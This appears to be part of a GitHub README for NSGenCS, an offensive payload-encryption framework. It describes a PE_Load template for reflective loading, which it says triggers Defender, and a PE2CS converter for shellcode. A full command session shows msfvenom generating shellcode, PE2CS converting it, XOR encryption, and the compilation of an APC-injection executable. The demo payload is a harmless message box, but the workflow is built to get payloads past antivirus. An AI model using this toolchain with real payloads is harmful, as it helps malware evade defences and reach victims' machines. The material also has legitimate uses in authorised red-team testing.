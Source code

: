 # Pointless Functionality (Triggers AV Currently)

Also supplied is the PE_Load template adopted from Casey Smith's (@subTee) and a utility called PE2CS. The PE_LOAD template triggers Defender so use with caution!

![image](https://user-images.githubusercontent.com/21687763/130750571-b992a951-d32b-49cd-8fb9-778ce54aca88.png)

Want to reflectively load a PE file? Well now you can if you need to.

It's as simple as just `PE2CS inputfile.exe > outputfile.cs` and use the `outputfile.cs` as your C# input file.

Hopefully this shows how you can use templates from all sorts of different projects, drop them in this framework and with a few minor adjustments, you're good to go.

# PE2CS

The included utility PE2CS will also convert any raw shellcode into the correct format to use with NSGENCS. Here we take the raw output from MSFVenom and parse it using PE2CS:

```
C:\Tools\NSGenCS>c:\metasploit-framework\bin\msfvenom.bat -p windows/x64/messagebox TEXT=NSGENCS TITLE=NSGENCS -f raw > msgbox.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 283 bytes


C:\Tools\NSGenCS>pe2cs msgbox.bin > msgbox.cs

C:\Tools\NSGenCS>python NSGenCS.py -file msgbox.cs -method xor -key 0x55 -out p3.exe



███╗   ██╗███████╗ ██████╗ ███████╗███╗   ██╗ ██████╗███████╗
████╗  ██║██╔════╝██╔════╝ ██╔════╝████╗  ██║██╔════╝██╔════╝
██╔██╗ ██║███████╗██║  ███╗█████╗  ██╔██╗ ██║██║     ███████╗
██║╚██╗██║╚════██║██║   ██║██╔══╝  ██║╚██╗██║██║     ╚════██║
██║ ╚████║███████║╚██████╔╝███████╗██║ ╚████║╚██████╗███████║
╚═╝  ╚═══╝╚══════╝ ╚═════╝ ╚══════╝╚═╝  ╚═══╝ ╚═════╝╚══════╝

NS Payload Encryptor by @bb_hacks                                                                                       

> Creating encoded shellcode from CS file
> Generating payload
> Cleanup
Microsoft (R) Build Engine version 16.10.2+857e5a733 for .NET
Copyright (C) Microsoft Corporation. All rights reserved.

  Determining projects to restore...
  Restored C:\Tools\NSGenCS\APC_Inj_New\Payload.csproj (in 94 ms).
  Payload -> C:\Tools\NSGenCS\APC_Inj_New\bin\Release\net45\win10-x64\Payload.exe
  Payload -> C:\Tools\NSGenCS\APC_Inj_New\bin\Release\net45\win10-x64\publish\
        1 file(s) copied.

You should see p3.exe now

C:\Tools\NSGenCS>p3.exe
```
